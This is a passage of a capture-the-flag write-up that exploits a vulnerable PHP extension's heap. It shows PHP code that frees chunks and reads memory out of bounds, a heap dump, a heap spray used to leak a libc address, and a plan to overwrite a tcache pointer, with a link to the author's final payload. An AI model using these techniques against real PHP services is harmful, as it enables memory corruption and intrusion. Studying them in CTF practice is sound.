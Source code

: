 ```php
releasestr($x[1]);
releasestr($x[2]);

read($x[0], 299);
echo "START\n";
for ($i = 0; $i < 300; $i++) {
    echo $buf2[$i] . "\n";
}
echo "END\n";
```

The output,

    000 0x0000333333333333 0x0000333333333333 // x[0]
    010 0x0000333333333333 0x00000000000000F1
    020 0x00005570AB328520 0x00005570AB2F9010
    ...
    550 0x0000000000656761 0x0000000000000021 // x[1]
    560 0x0000000000000000 0x00005570AB2F9010
    570 0x0000333333333333 0x00000000000000D1
    ...
    6D0 0x0000007265707075 0x0000000000000021 // x[2]
    6E0 0x00005570AB32B990 0x00005570AB2F9010
    6F0 0x0000333333333333 0x00000000000000D1

and for getting libc leak, I just sprayed some huge-ish chunks and freed them. Just hope that some of the libc leaks remains near our controlled chunks. To find them just find a leak starting with 0x7F and ends with …BE0 (Ubuntu 20.04, libc 2.31)

```php
$bigly = [];
for ($i = 0; $i < 16; $i++) {
    array_push($bigly, creatbuf(0x1a0));
}
for ($i = 2; $i < 16; $i++) {
    releasestr($bigly[$i]);
}

....

read($bigly[1], 77); // libc leak
echo "START\n";
echo $buf2[77] . "\n";
echo "END\n";
```

Since we already have libc leak and the offset to x\[2\] from x\[0\] to overwrite tcache fd, we can start our initial attack and get the flag.

## Exploit Stuff

The final payload and scripts are in my gists, [https://gist.github.com/circleous/2e8b92c7e592e29a58577a9080fdbfb4](https://gist.github.com/circleous/2e8b92c7e592e29a58577a9080fdbfb4)
